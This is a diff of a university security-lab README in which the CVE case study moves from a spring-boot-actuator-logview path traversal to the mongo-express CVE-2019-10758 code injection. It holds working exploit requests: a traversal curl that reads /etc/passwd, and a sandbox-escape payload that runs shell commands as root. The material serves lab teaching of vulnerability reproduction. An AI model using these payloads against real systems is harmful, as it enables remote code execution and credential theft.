

Before and after one commit to Jiahe114514/hdu-is-lab1-secure-api, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; pictures changed too: docs/screenshots/05-cve-repro.png; blank space fills up the shorter version.

Commit message:
Switch CVE case to CVE-2019-10758 (mongo-express 0.53.0 code injection) from the Vulhub scenario

````diff
--- a/README.md
+++ b/README.md
@@ -243,66 +240,47 @@ were upgraded (Flask 3.0.3 → 3.1.3, PyJWT 2.10.1 → 2.15.1) and one dependenc
 
 ---
 
-## 8. CVE analysis — CVE-2021-21234 (spring-boot-actuator-logview path traversal)
+## 8. CVE analysis — CVE-2019-10758 (mongo-express code injection)
 
 | Field | Value |
 |---|---|
-| CVE | **CVE-2021-21234** |
-| Product | `eu.hinsch:spring-boot-actuator-logview` < 0.2.13 (fixed in 0.2.13) |
-| Class | CWE-22 Path Traversal → arbitrary file read (unauthenticated in this deployment) |
-| Impact | Confidentiality: any file readable by the application process — `/etc/passwd`, `/etc/shadow`, process environment, application configuration with credentials |
-| CVSS v3.1 | 7.7 High (`AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`) |
-| Environment | Custom Spring Boot 1.5.22 demo application; library 0.2.12 (vulnerable) vs 0.2.13 (patched); Java 8; Docker Compose; host port 8081 |
-
-Vulhub has no ready-made scenario for this CVE, so the environment was built from the
-vulnerable library itself: a minimal Spring Boot 1.5 application that exposes the
-`/log` actuator endpoint with `logging.path=/var/log/app`, packaged with
-`spring-boot-actuator-logview:0.2.12`.
+| CVE | **CVE-2019-10758** |
+| Product | mongo-express < 0.54.0 |
+| Class | Code injection (CWE-94/95): request data is passed to `eval()` inside a `vm` sandbox |
+| Impact | Remote code execution as the container user (root in this image), without credentials in this build |
+| CVSS v3.1 | 9.9 Critical (`AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`) |
+| Environment | Vulhub `mongo-express/CVE-2019-10758`; images `vulhub/mongo-express:0.53.0` + `mongo:3.4`; host port 8081 |
 
 ### 8.1 Vulnerable environment
 
 ```bash
-cd cve/spring-CVE-2021-21234
-mvn -B package -DskipTests                 # builds the fat jar with logview 0.2.12
-docker compose build && docker compose up -d
-docker compose ps                          # lab1-logview-vuln, 8081->8080
+docker compose up -d          # cve/mongo-express-CVE-2019-10758/docker-compose.yml
+docker compose ps             # web (0.53.0) + mongo 3.4, 8081->8081
 ```
+
+The web interface answers on <http://127.0.0.1:8081>. This build ships without
+basic authentication, so the vulnerable endpoint is reachable anonymously.
 
 ### 8.2 Reproduction
 
-The endpoint exposes two request parameters: `filename` (which file to show) and `base`
-(which sub-directory of the log root to browse). Supplying a traversal sequence in
-`base` escapes the log directory. `curl --path-as-is` keeps the sequence intact on the
-client side.
+`/checkValid` accepts a free-form document string and passes it to `toBSON()`.
+Supplying a JavaScript expression instead of JSON executes it:
 
 ```bash
-curl -s -i --path-as-is \
-  "http://127.0.0.1:8081/log/view?filename=passwd&base=../../../../etc"
+curl -s -i -X POST http://127.0.0.1:8081/checkValid \
+  --data-urlencode 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("id > /tmp/pwned.txt")'
 ```
 
-**Result — `HTTP/1.1 200`, the file content is returned:**
+The response is `HTTP 200` with the body `Valid`, and the command has run:
 
 ```
-HTTP/1.1 200
-Content-Type: text/plain
-Content-Length: 888
-
-root:x:0:0:root:/root:/bin/bash
-daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
-bin:x:2:2:bin:/bin:/usr/sbin/nologin
-...
+docker exec lab1-mongoexpress-vuln cat /tmp/pwned.txt
+uid=0(root) gid=0(root) groups=0(root)
 ```
-
-`filename` itself is clean (`passwd`), which is exactly why the library's own `..` check
-does not fire. The same request shape reads `/etc/shadow` and the process environment
-(`filename=environ&base=../../../../proc/self`), and `GET /log/` still lists the log
-directory normally — the endpoint works as designed, just not within its intended
-boundary.
 
 ![CVE reproduction](docs/screenshots/05-cve-repro.png)
 
 ### 8.3 Root cause
 
-The vulnerable version (`lib/.../LogViewEndpoint.java`, 0.2.12) validates only one of the
-two path parameters:
+`lib/bson.js` in 0.53.0 turns the request body into code:
 
````
Also changed, not shown: other parts of README.md (+62 -88 lines), docs/screenshots/06-cve-fixed.png, 12 other files.
